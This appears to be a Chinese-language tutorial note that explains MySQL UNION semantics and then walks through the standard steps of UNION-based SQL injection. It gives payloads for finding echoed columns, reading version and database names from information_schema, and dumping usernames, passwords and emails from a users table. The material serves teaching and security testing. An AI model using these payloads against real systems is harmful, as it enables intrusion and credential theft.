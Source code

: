##### Union语句

1. union语句的作用

   union的语句的作用是将多个select语句的查询结果集合并为一个结果集，结果集的列名取第一个select语句的列名

2. union语句的使用条件

   每个SELECT语句的相应位置中列出的所选列应具有相同的数据类型。例如，第一条语句选择的第一列应与其他语句选择的第一列具有相同的类型。如果相应的SELECT列的数据类型不匹配，则UNION结果中的列的类型和长度将考虑所有SELECT语句检索到的值。例如，考虑以下情况，其中列长度不限于第一个SELECT的值的长度

   ```sql
   mysql> SELECT REPEAT('a',1) UNION SELECT REPEAT('b',20);
   +----------------------+
   | REPEAT('a',1)        |
   +----------------------+
   | a                    |
   | bbbbbbbbbbbbbbbbbbbb |
   +----------------------+
   ```

   

##### Union注入一般步骤

1. 确定回显位。一般可以用如下两个方法来判断回显位

   ```sql
   # 使用select语句, 对应的sql payload如下
   xxx' union select 1,2,3 --+
   
   # 使用order by, 对应的sql payload如下
   xxx' order by 1,2,3 --+
   ```

2. 确定数据库版本，当前应用程序使用的数据库名

   ```sql
   # @@version, user(), database(), 对应sql payload如下
   
   xxx' union select @@version, user(), database() --+
   ```

3. 查询数据表

   ```sql
   # 数据表information_schema.tables, table_name, table_schema, 对应的sql payload如下
   
   xxx' union select table_name, table_schema, 3 from information_schema.tables where table_schema = database() --+
   ```

4. 确定表字段

   ```sql
   # information_schema.columns, table_name, column_name, 对应的sql payload如下
   
   xxx' union select talbe_name, column_name, 3 from information_schema.columns where table_name = "users" --+
   ```

5.  查询数据

   ```sql
   # 在知道库名，表名，字段名后之后的操作就跟普通的查询没什么区别了
   
   xxx' union select username, password, email from users --+
   ```



##### Union 注入小总结

1. 使用union注入需要注意的是多个select语句中的的列的数目，数据类型要相同。
2. 使用union注入需要有明显的回显位。





---

that's all





